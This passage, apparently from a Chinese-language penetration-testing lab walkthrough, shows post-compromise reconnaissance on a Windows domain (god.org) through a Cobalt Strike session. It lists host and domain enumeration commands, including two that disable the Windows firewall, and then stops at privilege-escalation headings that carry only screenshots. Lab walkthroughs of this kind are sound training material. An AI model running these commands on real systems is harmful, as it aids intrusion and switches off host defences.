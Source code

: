 ```java
shell ipconfig /all
shell set logon		//域环境显示登陆的DC非域环境显示本机名称
```

> 发现内网ip地址192.168.52.143和域god.org

##### 6.2 域控 和 域用户

```shell
ipconfig /all	#判断是否有域存在，查看网关IP地址、DNS的IP地址、域名、本机是否和DNS服务器处于同一网段
```

```shell
whoami
systeminfo
nslookup god.org    # 解析域名IP地址
net config workstation  #查询当前登陆域及登陆用户信息
net view /domain   #查看域
net time /domain  # 获取域服务器的时间
systeminfo | findstr /B /C:"OS Name" /C:"OS Version"  # 英文操作系统
systeminfo | findstr /B /C:"OS 名称" /C:"OS 版本"   # 中文操作系统
echo %PROCESSOR_ARCHITECTURE%    # 查看系统系统结构
wmic service list brief   # 查询本机服务信息
tasklist                   #查询进程
wmic process list brief   #使用wmic查询进程
wmic  startup get command,caption   #查看启动进程
schtasks /query /fo list /v      # 查看计划任务
net statistics workstation     # 查看主机开机时间
netstat -ano    #查询端口列表
wmic qfe get caption,description,hotfixid,installedon   #查询本机安装的补丁
net user    #查看本机用户列表
net localgroup administrators  # 获取本地管理员
query user || qwinsta   # 获取在线用户
net session    # 列出计算机所连接的客户端之间的会话
net share   # 查看本机共享列表
wmic share get name,path,status #使用wmic 查询本机共享列表
netsh firewall set opmode disable   # windows server 2003 之前
netsh advfirewall set allprofiles state off  # windows server 2003 之后
```

#### 7、权限提升

##### 方法一：CS提升权限

![image-20220623102433735](https://yang-typora.oss-cn-beijing.aliyuncs.com/202206231024768.png)

![image-20220623102449218](https://yang-typora.oss-cn-beijing.aliyuncs.com/202206231024247.png)

![image-20220623102518478](https://yang-typora.oss-cn-beijing.aliyuncs.com/202206231025516.png)

##### 方法二：MSF提权

> 先将CS的会话传送给MSF
